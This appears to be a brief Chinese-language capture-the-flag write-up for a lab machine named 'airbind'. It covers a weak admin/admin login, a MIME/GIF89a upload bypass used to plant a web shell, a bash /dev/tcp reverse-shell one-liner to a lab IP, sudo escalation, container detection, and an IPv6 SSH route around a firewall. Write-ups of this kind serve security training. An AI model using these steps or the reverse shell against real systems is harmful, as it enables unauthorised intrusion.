

# airbind
nmap扫描

web是一个登录点弱口令进admin/admin
有版本信息

去找下历史漏洞
exp:


上传logo文件然后修改mime头,添加GIF89a
上传成功后在/images/uploads/logos下找到上传文件
蚁剑连接

弹`个shell回来
```
/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/4444 0>&1'
```
sudo -l提权

获得的是user.txt

看了一下wp,原来是在容器中
检测方法:
检查硬件信息​（需要 root）
```
dmidecode -t system 2>/dev/null | grep -E 'Manufacturer|Product'
```
检查特定文件
```
# Docker 容器
ls /.dockerenv  # 存在则一定是 Docker 容器

# LXC 容器
ls /dev/lxc/    # 存在则一定是 LXC 容器
```
使用linpeas.sh脚本
这里是处于lxc容器中

查一下lxc的逃逸方法
没成功
想着直接用ssh的私钥登录试一下,结果卡着不动(开始时扫描到22端口被过滤)
看了其他人的方法
使用ipv6连接登录
找到目标机的ipv地址
```
ping6 -I eth1 ff02::1
nmap -6 -e eth1 fe80::a00:27ff:feb7:d253/64
```


ssh连接(%eth0:在 IPv6 地址后添加 % 和接口名称)
```
ssh root@fe80::a00:27ff:feb7:d253%eth0 -i rsa
```

原因在于防火墙配置
ipv4:

ipv6:


